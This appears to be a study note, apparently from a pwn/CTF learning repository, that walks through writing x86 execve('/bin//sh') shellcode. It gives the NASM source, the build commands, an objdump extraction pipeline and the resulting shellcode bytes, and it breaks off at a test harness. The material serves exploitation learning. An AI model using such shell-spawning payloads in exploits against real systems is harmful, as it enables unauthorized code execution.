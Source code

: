 Final
```c
luna@luna-LOL:~/Desktop/pwn/86_ASM$ gcc -o shellcode_test shellcode_test.c
luna@luna-LOL:~/Desktop/pwn/86_ASM$ ./shellcode_test
Hello World!
```
**Spawn Shell Shellcode**  [ [Ref](http://shell-storm.org/shellcode/files/shellcode-827.php) ]

system call for execve() - 11 [ [Ref](http://shell-storm.org/shellcode/files/syscalls.html) ]
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
"/bin/sh"
```c
luna@luna-LOL:~/Desktop/pwn/86_ASM$ python -c 'print "/bin//sh"' | hexdump -C
00000000  2f 62 69 6e 2f 2f 73 68  0a                       |/bin//sh.|
00000009

2f 62 69 6e
2f 2f 73 68
0x68732f2f
0x6e69622f
```
String Terminator
```c
xor eax,eax
push eax <- 0x00
push 0x68732f2f
push 0x6e69622f
```
Brief
```c
eax = 11 ( system call )
ebx = /bin//sh ( 
ecx = 0x00 ( argv )
edx = 0x00 ( envp ) -> optional
```
execve.asm
```c
global _start

section .text
_start:
        xor eax,eax
        push eax
        push 0x68732f2f
        push 0x6e69622f
        mov ebx,esp
        push eax
        push ebx
        mov ecx,esp
        mov al,0xb
        int 0x80
```
Compile and generate shellcode
```c
luna@luna-LOL:~/Desktop/pwn/86_ASM$ nasm -f elf32 -o execve.o execve.asm
luna@luna-LOL:~/Desktop/pwn/86_ASM$ ld -o shellcode execve.o

luna@luna-LOL:~/Desktop/pwn/86_ASM$ objdump -d shellcode | grep "^ " | cut -d$'\t' -f 2 | tr '\n' ' ' | sed -e 's/ *$//' | sed -e 's/ \+/\\x/g'| awk '{print "\\x"$0}'
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
Testing Shellcode
```c
#include <stdio.h>
#include <string.h>
```
